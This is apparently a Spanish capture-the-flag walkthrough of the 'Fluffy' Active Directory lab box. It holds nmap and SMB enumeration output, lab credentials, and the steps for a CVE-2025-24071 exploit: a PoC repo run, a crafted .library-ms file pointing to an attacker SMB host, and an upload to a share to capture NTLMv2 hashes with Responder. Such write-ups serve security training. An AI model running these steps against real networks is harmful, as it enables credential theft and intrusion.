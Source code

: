 #ActiveDirectory #windows #Easy 
# MACHINE INFORMATION

As is common in real life Windows pentests, you will start the Fluffy box with credentials for the following account: j.fleischman / J0elTHEM4n1990!
### ping

```python
❯ ping -c 1 10.10.11.69
PING 10.10.11.69 (10.10.11.69) 56(84) bytes of data.
64 bytes from 10.10.11.69: icmp_seq=1 ttl=127 time=129 ms

--- 10.10.11.69 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 128.552/128.552/128.552/0.000 ms
```

### nmap

```python
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-28 22:24:39Z)
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49685/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49700/tcp open  msrpc         Microsoft Windows RPC
49711/tcp open  msrpc         Microsoft Windows RPC
49723/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-05-28T22:25:26
|_  start_date: N/A
|_clock-skew: 6h59m58s
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 28 10:26:37 2025 -- 1 IP address (1 host up) scanned in 193.77 seconds
```

### Enumeración SMB 

### Rid-Brute

```python
❯ crackmapexec smb fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' --rid-brute
```

![[Pasted image 20250528120635.png]]

Usando la --shares, enumeramos los derechos de acceso a los recursos compartidos SMB disponibles

```python
❯ nxc smb dc01.fluffy.htb -u 'j.fleischman' -p 'J0elTHEM4n1990!' --shares
```

![[Pasted image 20250528121206.png]]

Confirmamos el acceso de lectura y escritura a un recurso compartido personalizado llamado IT y descargamos todo con ==mget * .== 

![[Pasted image 20250528122155.png]]

el documento pdf hace referencia a algunos CVS conocidos que están parchados o que serán parchados próximamente
![[Pasted image 20250528122746.png]]

Este KeePass.exe.configarchivo es un archivo de configuración de aplicación .NET estándar, pero no expone las credenciales directamente.

![[Pasted image 20250528123035.png]]

  Sin embargo, esta línea en KeePass.exe.config: 

```python
xml
<loadFromRemoteSources enabled="true" />
```


…instruye al entorno de ejecución .NET para permitir la carga de ensamblados (DLL) desde ubicaciones remotas , incluidas: Rutas UNC ( \\attacker\share\malicious.dll) Unidades mapeadas Incluso ubicaciones basadas en la web (en versiones anteriores o casos mal configurados)

Normalmente, esto estaría bloqueado por la política de seguridad de .NET , a menos que esté permitido explícitamente como aquí. Esta configuración es una señal de alerta importante cuando un usuario extrae y ejecuta KeePass.exe desde un archivo ZIP, donde tenemos acceso de escritura . Esto sugiere claramente que el entorno está preparado para cargar algo desde una ubicación remota, un punto de partida clásico para el phishing de intranet mediante trucos de rutas SMB , señuelos de suplantación de identidad o cargas útiles de phishing enviadas mediante referencias a recursos compartidos de intranet . 

### CVE-2025-24071 Descripción general

Entre los CVE revelados en el PDF, el CVE-2025-24071 destaca por ser una coincidencia precisa con la configuración actual. Es un CVE reciente (si no recuerdo mal, hace unos meses leí el [[https://cti.monster/blog/2025/03/18/CVE-2025-24071.html]] CVE-2025-24071 es una vulnerabilidad de suplantación de identidad (spoofing) en el Explorador de archivos de Windows que permite a los atacantes capturar hashes NTLM con mínima interacción del usuario. La falla surge del procesamiento automático de .library-msarchivos del Explorador de archivos, que están basados ​​en XML y definen ubicaciones de bibliotecas.

### Suplantación de identidad (phishing) 
Primero, creamos el arma usando el repositorio PoC CVE-2025-24071 (o creamos uno manualmente, lo cual es bastante sencillo). Esto genera un .library-msarchivo diseñado para provocar la autenticación SMB en nuestro servidor controlado:

1. clonamos el repositorio
2. creamos un entorno virtual en python para poder operar de forma segura
3. activamos el entorno 
4. instalamos los requierements
5. ejecutamos el exploit


```python
❯ git clone https://github.com/ThemeHackers/CVE-2025-24071.git

❯ python3 -m venv venv

❯ source venv/bin/activate

❯ pip install -r requirements.txt

❯ python exploit.py -f Microsoft -i $10.10.14.133
```

![[Pasted image 20250528130756.png]]

esto creara un archivo xml parecido a este 

```python
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<searchConnectorDescriptionList>
<searchConnectorDescription>
<simpleLocation>
  <url>\\10.10.45.11\shared</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

El payload está dentro exploit.zip. ahora vamos a montar el recurso compartido y vamos a tener nuestro responder a la escucha

```python
❯ sudo mount -t cifs \
  //dc01.fluffy.htb/IT /mnt/ \
  -o username='j.fleischman',password='J0elTHEM4n1990!',domain='fluffy.htb'

❯ sudo cp exploit.zip /mnt/
```

![[Pasted image 20250528133557.png]]

### Hashcat 
La trampa activó el sistema y Responder capturó un hash NTLMv2 activo FLUFFY\p.agila

![[Pasted image 20250528135043.png]]

### bloodhound-python
ya que tenemos credenciales validas vamos a 
![[Pasted image 20250528140513.png]]